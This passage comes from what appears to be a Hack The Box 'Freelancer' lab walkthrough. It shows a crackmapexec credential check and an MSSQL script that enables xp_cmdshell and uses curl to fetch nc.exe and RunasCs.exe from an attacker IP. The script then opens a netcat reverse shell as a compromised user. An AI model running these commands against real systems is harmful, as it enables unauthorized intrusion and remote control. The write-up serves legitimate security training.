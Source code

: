 `crackmapexec smb 10.10.11.5 -u users.txt -p IL0v3ErenY3ager`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-32.png)

We get a valid match for user **mikasaAckerman**:**IL0v3ErenY3ager**

### RunasCs

Now that we know the credentials for user **mikasaAckerman**, let's use it along with **RunasCs.exe** and spawn a revere shell as **mikasaAckerman**.

We modifed the above reverse shell script a little bit so that it will download **RunasCs.exe** and run reverse shell command as the user **mikasaAckerman**:

```sql
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

EXEC xp_cmdshell 'curl http://10.10.14.36:8088/nc.exe -o C:\ProgramData\nc.exe';
EXEC xp_cmdshell 'curl http://10.10.14.36:8088/RunasCs.exe -o C:\ProgramData\RunasCs.exe';
EXEC xp_cmdshell 'C:\ProgramData\RunasCs.exe mikasaAckerman IL0v3ErenY3ager "nc.exe 10.10.14.36 1337 -e cmd"';

SELECT IS_SRVROLEMEMBER('sysadmin');
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-17.png)

As we run the above command, we get a shell as **mikasaAckerman**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-33.png)

